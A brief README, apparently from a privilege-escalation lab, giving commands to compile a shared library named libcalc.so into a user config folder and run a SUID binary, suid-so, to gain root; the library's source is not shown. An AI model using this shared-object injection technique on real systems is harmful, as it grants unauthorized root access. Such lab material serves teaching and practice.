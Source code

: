 # suid-_env

In command prompt type: mkdir /home/user/.config
In command prompt type: cd /home/user/.config
Open a text editor paste codes from libcalc.so or mv the libcalc.so to the .config folder
In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so

# Congrats you now have root
